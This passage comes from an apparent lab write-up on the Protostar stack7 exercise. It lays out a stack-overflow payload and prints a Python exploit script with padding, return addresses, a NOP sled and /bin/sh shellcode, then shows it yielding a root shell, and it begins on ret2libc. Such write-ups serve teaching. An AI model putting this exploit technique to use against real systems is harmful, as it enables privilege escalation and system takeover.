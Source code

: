 The payload needs to be constructed as:

```
80 bytes             4 bytes      4 bytes    n bytes          n bytes
+-----------------------------------------------------------------------+
| Padding            |`ret`      |Nop-Sled  |Nop-Sled        |Shellcode |
|                    |address    |address   |                |          |
+-------------------------------------------+----------------+----------+
```

A stack frame is organized such as the return address,which is 4 bytes away from the address contained in EBP. And due to the double `ret`, payload requires to store 2 return pointers (of 4 bytes each). Given this, it can be determined that the Nop-Sled will start 8 bytes from the EBP.

The following python script was done to hijack the execution. Same shellcode shown in the "Exploiting the Heap" section was used.

```python
import struct
padding = "\xAA" * 80
retReturnPointer = struct.pack("I", 0x08048553) #Address of main ret instruction.
stackReturnPointer = struct.pack("I", 0xbffff7b8 + 0x8 +0x20) #EBP + Offset to nopSled + Some slack in case stack is different
nopSled = "\x90" * 150
shellcode = "\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"
print(padding + retReturnPointer + stackReturnPointer + nopSled + shellcode + "\x00")
```

**NOTE:** As mentioned in the previous [article](./2020-05-09-protostar-stack5.md) the stack can change from execution to execution, so a NOP-Sled will be included as part of the payload as well.

By executing the program with the generated input (and using `cat` to maintain the std input pipe open), a root shell can be obtained:

```
user@protostar:~$ (python ~/py.py ; cat) | /opt/protostar/bin/stack7
input path please: got path ����������������������������������������������������������������S������������S�������������������������������������������������������������������������������������������������������������������������������������������������������������//sh�/binQVW�$�

whoami
root
pwd
/home/user
```


##### Ret2LibC exploitation option

Ret2LibC is an attack that looks to "recycle" code from existent libraries such as LibC (C standard library). This technique is mainly used when the target binary has some sort of protection to prevent code execution in the stack.

To begin with, it is essential to find some pieces of code such as `system`. `system` is a function that allows to execute bash commands so it can be used to get a shell (or any other command injection). When searching for `system` in libc in the target program, it is possible to observe that it resides at the address `0xb7ecffb0`. 
